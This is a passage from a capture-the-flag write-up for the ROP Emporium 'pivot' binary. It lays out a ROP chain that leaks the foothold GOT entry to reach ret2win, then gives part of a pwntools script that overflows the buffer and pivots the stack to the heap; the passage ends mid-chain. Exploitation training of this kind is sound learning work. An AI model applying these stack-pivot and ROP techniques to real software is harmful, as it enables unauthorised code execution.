 
And that gadget works perfectly. So we can construct our payload as follows:

```
         | stack          |
         | -------------- |
8  bytes | foothold_func  | # call foothold function so it is populated
8  bytes | pop_rax gadget |                                                     
8  bytes | foothold got   | # The memory location of the footholds GOT entry                       
8  bytes | mov rax [rax]  | # Place the value at rax into rax               
8  bytes | pop rbp        | #                                                     
8  bytes | offset         | # offset between foothold and ret2win func        
8  bytes | add rax, rbp   | # Add the offset to rax                   
8  bytes | jmp rax        | # Call the jmp rax gadget to call ret2win                       
8  bytes | -------------- |

```

You would then place this payload into the heap and call it with the previously crafted attack which gives us the overall exploit of:

```Python
#!/usr/bin/python3

from pwn import *

write_loc 	= 0x601029
print_file 	= p64(0x400620)
target		= "./pivot"
back_junk 	= b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2

"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
	for i in range(0, len(payload), 8):
		continue
		print(binascii.hexlify(payload[i:i+8]))

io = process(target)
first_out = io.clean(0.5).decode("utf-8")
print(first_out)
stack_smash = junk + new_bp

############### Set up the pivot ##############

# pop rax
stack_smash += p64(0x04009bb)

# the RAX binary
# I need to be interacting with the binary here by parsing out the heap loc
pivot_loc = int(first_out.split("\n")[4].split()[-1], 16)
stack_smash += p64(pivot_loc)

# exchange rsp and rax
stack_smash += p64(0x04009bd)

```